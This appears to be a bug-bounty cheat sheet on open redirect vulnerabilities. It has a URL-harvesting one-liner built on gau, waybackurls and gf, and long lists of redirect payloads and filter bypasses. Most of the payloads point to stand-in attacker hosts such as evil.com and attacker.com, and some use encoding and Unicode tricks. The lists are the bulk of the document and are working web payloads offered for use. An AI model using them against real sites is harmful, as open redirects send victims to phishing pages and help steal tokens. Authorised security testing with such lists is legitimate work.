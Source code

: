 ## Notes on Open Redirect:

If you need better understanding on open redirection vulnerabilty read this awesome [blog](https://medium.com/bugbountywriteup/open-redirection-leads-to-a-bounty-d94029e11d17) by [@impratikdabhi](https://twitter.com/impratikdabhi). You can get more than 100 h1 disclosed open redirect reports from [here](https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPOPENREDIRECT.md).

### gf-pattern:
Get it [here](https://github.com/muhe7/gf-pattern).

### One-Liner:
```
▶ gau http://google.com -s  | head -n 5000 > google.txt; cat google.txt | sort -u | grep -a -i \=http > google_redirects.txt


▶ waybackulrs google.com | gf open-redirect | tee google.txt
```

### Payloads: 
[My-wordlist](https://github.com/muhe7/Payloads)

#### Payloads from h1 reports:
```
///bing.com/?www.domain.com/?category=interview&page=2
#/path///google.com
//evil.com/
/evil.com/
///evil.com
http://evil.com
%2Fgoogle.com
%2Fgoogle%252Ecom
/216.58.217.206/calendar
/blackfan.ru/..;/css
https:/%5cblackfan.ru/
/www.google.com/%2f%2e%2e
%09http:///zeit.co%40google.com
%5cblackfan.ru
http://%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88/PugOfConcept/nopuppies.jpg
/blackfan.ru/%2f../
http%3a%2f%2fevil.com%2f
/\google.com
////wordpress.com
@google.com
<>//google.com
///;@www.google.com
%40evil.com/
//;@inexistantdomain.com
//www.google.com/%2e%2e
/\/\malicious-site.com
/youtube.com/%2F..
//www.google.com/%2f%2e%2e
%09/blackfan.ru
http:///@attacker.com//localhost
https://evildomain.xx/EvilFile.xx
//////////////////////hackerone.com
?continue[to]=//google.com
#//google.com/
example.com
```

#### Payloads from Twitter:
```
@%E2%80%AE@moc.elgoog
https://testurl.comPayload
https://testurl.com@%E2..
["http://Phishing.com"]
https://company[.]com.evil[.]org
website.com@google.com
www.targetweb.com.attackersite.com 
```

#### Effective Bypass:
```
▶ Use different TLD
company.net
company.com 
company.xyz
▶ ///company.com
▶ ///http:///company.com
```

#### Weird:
1. https://hackerone.com/reports/299403
2. https://hackerone.com/reports/140447





